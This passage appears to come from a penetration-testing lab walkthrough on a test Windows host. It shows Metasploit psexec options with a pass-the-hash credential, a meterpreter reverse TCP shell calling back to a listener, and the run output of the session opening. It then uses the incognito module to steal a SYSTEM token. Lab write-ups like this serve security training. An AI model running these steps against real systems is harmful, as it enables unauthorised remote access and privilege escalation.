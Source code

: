 ``` plain
   SMBDomain             .                                                                  no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0  no        The password for the specified username
   SMBUser               wingoat                                                            no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.80.155   yes       The listen address
   LPORT     5555             yes       The listen port
...
msf exploit(psexec) > run

[*] Started reverse TCP handler on 192.168.80.155:5555 
[*] Connecting to the server...
[*] Authenticating to 192.168.80.128:445 as user 'wingoat'...
[*] Selecting PowerShell target
[*] 192.168.80.128:445 - Executing the payload...
[+] 192.168.80.128:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (1188911 bytes) to 192.168.80.128
[*] Meterpreter session 4 opened (192.168.80.155:5555 -> 192.168.80.128:49177) at 2016-06-09 11:37:22 -0400
```

### Token impersonation

We owned an administrator account. But we want even more privileges. We can use the *incognito* module to steal the SYSTEM token for ourselves:

``` plain
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help
...
Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token
```
